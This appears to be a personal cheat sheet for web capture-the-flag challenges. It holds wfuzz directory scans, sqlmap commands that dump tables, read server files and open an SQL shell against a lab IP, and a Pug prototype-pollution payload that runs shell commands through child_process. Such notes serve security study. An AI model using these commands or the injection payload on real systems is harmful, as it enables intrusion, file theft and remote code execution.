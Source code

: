 # Web Challanges

## Information Gathering

### scan for dirs

#### wfuzz
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/FUZZ

#### dirsearch
    https://github.com/maurosoria/dirsearch
    

### scan for files
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/administrat/include/FUZZ.php

## SQL Exploits

### sqlmap

#### scan for SQL vulnerabilities
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1

#### list tables
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --tables

#### file structure, e.g. apache
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --common-files

#### read file
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --read-files=/var/www/html/mail/contact_me.php

#### interactive SQL shell
    # DB freelance
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 -D freelancer --sql-shell

## Deobfuscation

### js

[ JStillery ]( https://en.kali.tools/?p=1354 )

### php

https://www.unphp.net/

## Polution

AST Injection

Pug

https://blog.p6.is/AST-Injection/#Pug

e.g.

```JSON
{
    "some_key":"some_value",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat flagfile > /app/static/stattest.html`)"
    }
}
```
